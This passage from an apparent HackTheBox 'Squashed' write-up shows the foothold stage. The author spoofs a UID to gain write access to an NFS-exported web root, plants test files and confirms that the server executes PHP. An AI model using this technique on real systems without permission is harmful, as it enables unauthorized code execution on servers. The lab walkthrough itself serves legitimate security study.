## Initial Foothold.

Since the web-root is owned by the userid `2017`, and the groupid `33`, I decided to set my `fak3r` userid to `2017`, and drop into a shell as `fak3r`. 

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Squashed]
└─$ sudo usermod -u 2017 fak3r                       
                                                                                                                                                                                                                                                                                                                            
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Squashed]
└─$ sudo su fak3r -c bash     
bash: cannot set terminal process group (5990): Inappropriate ioctl for device
bash: no job control in this shell
```

Now, I was able to read the share.
```
fak3r@kali:/home/kali/Desktop/HackTheBox/Linux-Boxes/Squashed$ ls -l /mnt
total 44
drwxr-xr-x 2 fak3r www-data  4096 Feb 19 04:10 css
drwxr-xr-x 2 fak3r www-data  4096 Feb 19 04:10 images
-rw-r----- 1 fak3r www-data 32532 Feb 19 04:10 index.html
drwxr-xr-x 2 fak3r www-data  4096 Feb 19 04:10 js
```

Now that I was able to access the web-root, I could write files to it too, so I decided to test it out.

```
fak3r@kali:/home/kali/Desktop/HackTheBox/Linux-Boxes/Squashed$ echo "Test?" > /mnt/test.html

```

Loading up `http://squashed.htb/test.html` in the browser, it returned the message

NOTE: I had added the IP and its host in `/etc/hosts` file

![sqs-2](https://user-images.githubusercontent.com/87711310/221344738-b0ab058b-d0c1-4584-bc36-06cd5a6b9b51.png)


So now, I tried to check if the site was able to handle the `PHP` code, cause its worth taking a shot and seeing it whether the webserver will execute PHP or not.

I wrote a small script that echoes back a message.

```
fak3r@kali:/home/kali/Desktop/HackTheBox/Linux-Boxes/Squashed$ echo -e '<?php\n  echo "This is a PHP test script";\n?>'
<?php
  echo "This is a PHP test script";
?>
fak3r@kali:/home/kali/Desktop/HackTheBox/Linux-Boxes/Squashed$ echo -e '<?php\n  echo "This is a PHP test script";\n?>' > /mnt/test.php
```

On visiting the `http://squashed.htb/test/php`, I was able to see the following image which was a clear indication of `php` being executed on the site.
